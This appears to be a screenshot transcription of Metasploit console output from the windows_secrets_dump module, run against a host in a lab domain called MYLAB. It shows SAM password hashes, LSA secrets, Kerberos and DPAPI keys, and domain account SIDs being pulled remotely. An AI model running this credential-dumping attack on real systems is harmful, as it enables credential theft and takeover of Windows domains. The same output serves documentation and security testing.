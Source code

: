 ```


msf6 auxiliary(gather/windows_secrets_dump) > run
[*] Running module against 192.168.100.123

[*] 192.168.100.123:445 - Service RemoteRegistry is in stopped state
[*] 192.168.100.123:445 - Starting service...
[*] 192.168.100.123:445 - Retrieving target system bootKey
[+] 192.168.100.123:445 - bootKey: 0x8f52b915365487d0b2005d3e6ae6eb2b
[*] 192.168.100.123:445 - Saving remote SAM database
[*] 192.168.100.123:445 - Dumping SAM hashes
[*] 192.168.100.123:445 - Password hints:
No users with password hints on this system
[*] 192.168.100.123:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:958be10a71d239e318078816aa929d08:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:84c140afd4e203cc90a977580e78f768:::
[*] 192.168.100.123:445 - Saving remote SECURITY database
[*] 192.168.100.123:445 - Decrypting LSA Key
[*] 192.168.100.123:445 - Dumping LSA Secrets
$MACHINE.ACC
MYLAB\WIN-340ED5H7S8$:plain_password_hex:b4ac4211cc8ec3f63cf005590bb06aad9c7bd5576ae57b21843d8973b5c208e0ad39b1c7f574d50be9c36fcd379315fccfae3d334364f19df40929b75d7592bf5df715318e2796e68fa59259017ee80b06bc1ac140fb14402c032273101488ab8a0868e90b9ec4e94b73e2b51a6bf9de518474e0cef7f1c7f8f38a575a2bb253dd97ffc0373b6c591cc66acf78ac77da42282291f77b8f4aef0ef9c5e293351caee2dec7c282106603b9d6e2618110394abc1182ae66b3777b738742c087e671e659e547bc45d7fc887407cf89517a4d51bff56f9a31c270037df1a7b80eba0926825a58ae0ee9878ab355cd4062d0b9
MYLAB\WIN-340ED5H7S8$:aes256-cts-hmac-sha1-96:90f28a5df2b417c96ca2fa18676f3735c4a697b94005378664169f96778400bb
MYLAB\WIN-340ED5H7S8$:aes128-cts-hmac-sha1-96:5895d4b7a9400f1d6565c1989320a1c6
MYLAB\WIN-340ED5H7S8$:des-cbc-md5:638a17d7c3480c12
MYLAB\WIN-340ED5H7S8$:aad3b435b51404eeaad3b435b51404ee:2abda1b5b936ed310fa624d6afbc4c52:::

DefaultPassword
(Unknown User): FOO$000

DPAPI_SYSTEM
dpapi_machinekey: 0xec969866a5bf6bd74f50c790536e58f8cd45da24
dpapi_userkey: 0xc67ad895123894e9d5d5efd0cf84c00b618cc48e

NL$KM
75 31 51 ae 2c 00 3c aa ff 73 db 34 46 c2 93 06    |u1Q.,.<..s.4F...|
81 85 02 41 02 ad 1b bd 2f 18 e3 4c b4 a7 c4 8a    |...A..../..L....|
3c 0f d4 29 74 91 a3 08 60 e4 41 1b 84 e8 0e 68    |<..)t...`.A....h|
67 7a 69 31 b0 e5 1e f9 e1 a6 f5 53 95 12 c3 47    |gzi1.......S...G|
Hex string: 2a2b513771a2bebc7395ee9648dd7a5e771d52bac713c6edd28f32b3f9259516ca19f562d7f633f55a02dd7f6d4471b7f66ae539327c64fd3c49cdbb267417e1

[*] 192.168.100.123:445 - Decrypting NL$KM
[*] 192.168.100.123:445 - Dumping cached hashes
No cached hashes on this system
[*] 192.168.100.123:445 - Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] 192.168.100.123:445 - Using the DRSUAPI method to get NTDS.DIT secrets
# SID's:
MYLAB\Administrator: S-1-5-21-413541012-3457123-5043211362-500
MYLAB\Guest: S-1-5-21-413541012-3457123-5043211362-501
MYLAB\krbtgt: S-1-5-21-413541012-3457123-5043211362-502
MYLAB\msfuser: S-1-5-21-413541012-3457123-5043211362-1105
MYLAB\test: S-1-5-21-413541012-3457123-5043211362-1110
MYLAB\WIN-340ED5H7S8$: S-1-5-21-413541012-3457123-5043211362-1001
MYLAB\DESKTOP-EQR2M7J$: S-1-5-21-413541012-3457123-5043211362-1104
MYLAB\WIN-K1F52W6Q3T1$: S-1-5-21-413541012-3457123-5043211362-1107
MYLAB\WIN-51S22F6Q7TW$: S-1-5-21-413541012-3457123-5043211362-1109
MYLAB\WIN2003X86$: S-1-5-21-413541012-3457123-5043211362-1602
```